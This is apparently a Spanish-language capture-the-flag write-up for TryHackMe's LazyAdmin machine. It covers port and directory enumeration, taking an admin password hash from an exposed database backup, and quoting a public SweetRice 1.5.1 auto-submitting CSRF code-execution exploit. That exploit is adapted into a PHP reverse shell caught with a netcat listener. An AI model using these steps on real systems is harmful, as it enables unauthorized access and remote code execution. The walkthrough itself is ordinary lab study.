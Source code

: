 # Lazy Admin WriteUp
### Español & English



## Enumeración

#### :ship: Nmap - Enumeración de puertos
Para la enumeración de puertos de la máquina utilizaremos nmap, una herramienta que nos permite scanear los puertos abiertos y los servicios que corren en una dirección IP. Comenzaremos con enumerar los primeros 1000 puertos con el siguiente comando:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -n -T4 -p 1-1000 10.10.109.87 -oN portenum

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:21 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con `-n` especificamos que no se realice nunca la resolución de DNS lo que agiliza el proceso de escaneo, con `-T4` especificamos el nivel de agresividad y evitamos que el tiempo de expiración de los sondeos en los puertos TCP no excedan de 10ms. Por útltimo guardamos los resultados en el archivo `portenum` en formato nmap con el argumento `-oN`.


Ahora procedemos con la enumeración de los servicios y sus versiones de cada uno de los puertos abiertos que previamente habiamos encontrado:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -sC -sV -p22,80 10.10.109.87 -oN portdetails

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:38 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

#### :page_with_curl: Wfuzz - Enumeración de directorios

Como podemos observar existe un servicio http por el puerto 80 al que podemos acceder con la URL `http://10.10.109.87:80`en nuestro navegador:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/index.png)

Accedemos a la página de defecto del servidor Apache2.

En este punto comencé a buscar archivos `robots.txt`, `login.php`o directorios como `/uploads` que son bastante counes en los CTFs, pero no obtuve resultados.

Para la enumeración de directorios utilizaremos wfuzz como herramienta de fuzzeo. Las wordlists que empleé fueron dos, con la primera (`/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) no obtuve resultados ya sin especificar extensión o con las extensiones `php`y `html`. Con la segunda wordlist (`/usr/share/wfuzz/wordlist/general/common.txt`) si que salieron resultados:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.109.87/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000204:   301        9 L      28 W     314 Ch      "content"                                                                                                                                                                 

Total time: 15.05663
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 63.02869
```

Si fuzzeamos de nuevo este directorio podemos acceder a otros archivos ocultos:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.98.202/content/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/content/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000412:   301        9 L      28 W     321 Ch      "images"                                                                                                                                                                  
000000416:   301        9 L      28 W     318 Ch      "inc"                                                                                                                                                                     
000000454:   301        9 L      28 W     317 Ch      "js"                                                                                                                                                                      

Total time: 21.64260
Processed Requests: 949
Filtered Requests: 946
Requests/sec.: 43.84869
```


Primero revisamos la URL `http://10.10.109.87/content`, donde podemos deducir que se utiliza el gestor de contenido SweetRice:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/sweetrice.png)

Al inspeccionar la página podemos encontrar un link de un archivo escrito en JavaScript (`.js`) debajo del tag de <title>.
Si nos fijamos en la ubicación del archivo podemos encontrarnos con el directorio que previamente habiamos fuzzeado.
  
Revisando el archivo `SweetRice.js` se ve una versión desde el que se utiliza el script (`0.5.4`). Con la idea de encontrar credenciales, con el atajo `Ctrl+F`filtramos la palabra `pass` con la que se obtienen dos resultados, sin embargo no hay ninguna contraseña o usuario.

Si revisas cuidadosamente los demás scripts alojados en `http://10.10.109.87/content/js`puedes sacar también el directorio de `/images`.
Mirando los archivos en `/images`no encontramos nada que nos revele datos que puedan vulnerar la máquina.

Por último, nos faltaría revisar el directorio `/inc` en el que encontremos diferentes carpetas y archivos en formato `.php`:


![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/inc.png)

Si accedemos al archivo de texto con nombre `lastest.txt`podemos listar una versión, que como dice el nombre sería la más reciente de uno de los servicios que corre la página web. El servicio que habíamos encontrado previamente es el CMS SweetRice. Lo cual nos servirá mas adelante para buscar exploits relacionados con esta versión (`1.5.1`).

También podemos encontrar una carpeta con nombre `mysql_backup`, dentro de esa carpeta podemos descargar la copia de seguridad de una base de datos:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/mysql.png)

Con el comando `strings`listamos todos los caracteres imprimibles del archivo:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ strings mysql_bakup_20191129023059-1.5.1.sql 
```

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/creds.png) 

Si buscamos entre los resultados podemos encontrar una línea con el nombre de usuario de la cuenta admin (`manager`) y un hash md5 de la contraseña (`42f749ade7f9e195bf475f37a44cafcb`). El hash lo podemos decodificar [aquí](https://crackstation.net/).

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/hash.png)

## Exploitation

#### :collision:Método - 1


Como ya obtuvimos qué versión de SweetRice se está empleando podemos comprobar si ésta es vulnerable. Una simple búsqueda en Google nos dará varios resultados:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/google.png)

En este método nos centraremos en el tercer enlace, el cual nos detalla el procedimiento a seguir para obtener un Code Execution:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

Tal y como lo describe necesitamos tener acceso a una cuenta admin del CMS para luego acceder al panel de ads. Una vez ahí subir el codigo que nos dará una reverse shell sustituyendo `<?php echo '<h1> Hacked </h1>'; phpinfo();?>`por nuestro código. En mi caso utilicé `/usr/share/webshells/php/php-reverse-shell.php` cambiando los parámetros de la IP con mi dirección y el puerto por el 1234.


![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/exploit1.png)


Una vez hayamos subido el archivo ponemos en escucha el puerto `1234` con netcat:



```console
kimera@vault:~/Machines/THM/LazyAdmin/exploit$ nc -nlvp 1234
listening on [any] 1234 ...
```

Y entramos en la URL donde se aloja el archivo que recién subimos: `http://10.10.109.87/content/inc/ads/reverse.php`. Con esto deberíamos haber obtenido una shell.

#### :collision:Método - 2

sudo /usr/bin/perl /home/itguy/backup.pl



